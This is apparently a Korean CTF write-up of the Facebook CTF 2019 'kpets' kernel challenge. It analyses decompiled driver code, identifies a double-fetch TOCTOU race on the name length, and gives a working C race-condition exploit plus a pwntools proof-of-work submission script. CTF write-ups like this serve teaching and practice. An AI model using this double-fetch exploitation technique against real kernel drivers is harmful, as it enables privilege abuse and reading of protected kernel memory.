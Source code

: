 ```yaml
---
title: Facebook CTF 2019 - kpets
date: 2019-06-05 15:00:53
categories:
- Kernel Exploit
- CTF write up
tags:
- Race condition
- TOCTOU
---
```


```sh
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
  
kpets: loading out-of-tree module taints kernel.
kpets: initializing stuff
kpets: welcome to Kernel Pets Simulator!                                              
```
간단한 커널문제다.


```c
  copy_from_user(&nlen, &in->nlen, 4LL);
  if ( nlen > 0x20 )
  {
    printk("kpets: invalid pet name len: 0x%02x\n");
    return v11;
  }
```

write 함수를 보면 20번째 줄 쯤에 name length를 받아오는데 이게 0x20보다 크면 return 시킨다.



```c
...
    copy_from_user(&idx, nnlen, 4LL);
 ...
```

근데 77번째 줄에서 또 name length를 받아온다. ??????? 여기서 toctou가 발생한다.



```c
    do
    {
      --max;
      v9 = (v9 - 108);
      if ( max == -1 )
      {
        for ( i = first_slot->name; ; t = i[-1].t )
        {
          if ( t )
          {
            printk("Next pet\n");
            type = i[-1].t;
            switch ( type )
            {
              case 0xC1:
                printk("Type: cat\n");
                break;
              case 0xC2:
                printk("Type: sheep\n");
                break;
              case 0xC0:
                printk("Type: dog\n");
                break;
              default:
                printk("Type: unknown\n");
                break;
            }
            printk("Name: %s\n");
            printk("Description: %s\n");
          }
          --v4;
          --i;
          if ( v4 == -1 )
            break;
        }
        return 0LL;
      }
    }
    while ( v9->type != 0xAAu );
```

또 read함수에서 type 이 0xaa 가 아니면 printk로 pet의 정보를 출력해주는데 문제는 return 을 한다.



```c
  if ( a3 <= 41 )
  {
    if ( copy_to_user(v7, flag) )
    {
      result = -14LL;
    }
    else
    {
      *v6 += v17;
      result = v17;
    }
  }
```

return 밑에 flag 받아오는 코드가 있기 때문에 출력하는 구문으로 가면 안된다.



```c
  if ( (v12 + 0x40) > 1u && v12 != 0xC2u )
  {
    printk("kpets: invalid pet type: 0x%02hhx\n");
  }
```

근데 write 함수에서 type이 0xc2가 아니면 유효한 type이 아니라면서 저장을 안해준다. 로직이 너무 이상하다ㅠ

race condition으로 name length를 크게 만들어 다음 type을 0xaa로 만든 뒤 flag를 가져오도록 코드를 짜면된다.



## poc.c

```c
// gcc -o poc poc.c -static -pthread
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <pthread.h>

typedef struct pet{

	char type;
	int nlen;
	char name[0x20];
	int dlen;
	char desc[0x40];
	char fake;

} Pet;

int fd;
Pet pet1;
pthread_t race;

void race_con(){
    
	while(1){
		pet1.nlen = 0x80;		
	}
    
}

int main(){

	char flag[0x100];
	int i = 0;

	memset(&flag,0,0x100);

	pet1.type = 0xc2;
	pet1.nlen = 0x20;
	memset(&pet1.name,0x77,0x20);
	pet1.dlen = 0x40;
	memset(&pet1.desc,0x61,0x40);
	pet1.fake = 0xaa;

	fd = open("/dev/kpets",O_RDWR);

	pthread_create(&race,0,&race_con,0);

	while(i<100){
        
		i++;
		pet1.nlen = 0x20;
		write(fd, &pet1, 0x70);
		read(fd, &flag, 0x100);
		printf("try %d:: %s\n",i,flag);
	
	}

}

```



## pow.py

```python
from pwn import *
import md5

w = remote("134.209.40.42",1337)

alpha = string.lowercase + string.uppercase + string.digits
url = "my_file_url"

def rand_string(length):
    return ''.join([random.choice(alpha) for _ in range(length)])

def solve(p):
    while True:
        att = rand_string(5)
        md = md5.new(att).digest()
        if p == md[:3]:
            print('Solution: {}'.format(att))
            return att

w.recvline()
w.recvuntil("== ")
poww = w.recv(3)

w.sendline(solve(poww))
w.sendline("Y")
w.sendline(url)
w.sendline("/bin/exploit")
w.interactive()

```


```sh
/ # ./init 
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
                                                   
/ $ ./poc
try 1:: 
try 2:: fb{***********************************}

try 3:: fb{***********************************}
...
```

대회 끝나고 푼거라 init 직접 실행시켜줘야 한다..ㅎㅎ 서버에서 실행하려면 pow.py 실행하면 된다.

poc 코드를 실행시키면 예쁘게 flag가 나온다.



대회 중에 푼 asciishop, babylist, otpserver, overfloat, r4nk 문제 exploit 코드는 <https://github.com/wally0813/write-up/tree/master/ctf/2019/facebook> 에 올려 놨다.

